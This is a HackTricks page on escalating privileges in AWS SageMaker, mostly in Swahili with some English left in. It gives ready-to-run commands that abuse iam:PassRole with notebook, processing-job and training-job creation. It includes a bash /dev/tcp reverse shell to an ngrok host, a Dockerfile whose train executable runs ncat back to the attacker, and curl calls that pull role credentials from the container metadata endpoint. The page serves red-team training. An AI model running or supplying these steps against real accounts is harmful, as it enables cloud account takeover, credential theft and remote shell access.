 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Anza kuunda noteboook na IAM Role ili kufikia iliyounganishwa nayo:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Majibu yanapaswa kuwa na uwanja wa `NotebookInstanceArn`, ambao utakuwa na ARN ya mfano mpya wa notebook ulioanzishwa. Tunaweza kisha kutumia API ya `create-presigned-notebook-instance-url` kuunda URL ambayo tunaweza kutumia kufikia mfano wa notebook mara tu utakapokuwa tayari:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate to the URL with the browser and click on \`Open JupyterLab\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

Sasa inawezekana kufikia akiba ya metadata ya IAM Role.

**Potential Impact:** Privesc to the sagemaker service role specified.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Ikiwa kuna Jupyter **notebooks tayari zinaendesha** kwenye hiyo na unaweza kuorodhesha hizo kwa `sagemaker:ListNotebookInstances` (au kuzipata kwa njia nyingine yoyote). Unaweza **kuunda URL kwa ajili yao, kuzipata, na kuiba akiba kama ilivyoonyeshwa katika mbinu ya awali**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililounganishwa.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Mshambuliaji mwenye ruhusa hizo anaweza kufanya **sagemaker kutekeleza kazi ya usindikaji** yenye jukumu la sagemaker lililounganishwa. Mshambuliaji anaweza kuashiria ufafanuzi wa kontena ambalo litakimbizwa katika **AWS managed ECS account instance**, na **kuchukua hati za ruhusa za jukumu la IAM lililounganishwa**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililotajwa.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza kuunda kazi ya mafunzo, **ikiendesha kontena chochote** juu yake na **jukumu lililounganishwa** nalo. Hivyo, mshambuliaji ataweza kuiba hati za jukumu hilo.

{% hint style="warning" %}
Hali hii ni ngumu zaidi kutekeleza kuliko ile ya awali kwa sababu unahitaji kuunda picha ya Docker ambayo itatuma rev shell au creds moja kwa moja kwa mshambuliaji (huwezi kuashiria amri ya kuanzisha katika usanidi wa kazi ya mafunzo).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya sagemaker lililotajwa.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Mshambuliaji mwenye ruhusa hizo ataweza (kwa uwezekano) kuunda **kazi ya mafunzo ya hyperparameter**, **akikimbia kontena yoyote** juu yake na **jukumu lililounganishwa** nalo.\
_Sijawahi kutumia kwa sababu ya ukosefu wa muda, lakini inaonekana kama matumizi ya awali, jisikie huru kutuma PR yenye maelezo ya matumizi._

## Marejeleo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
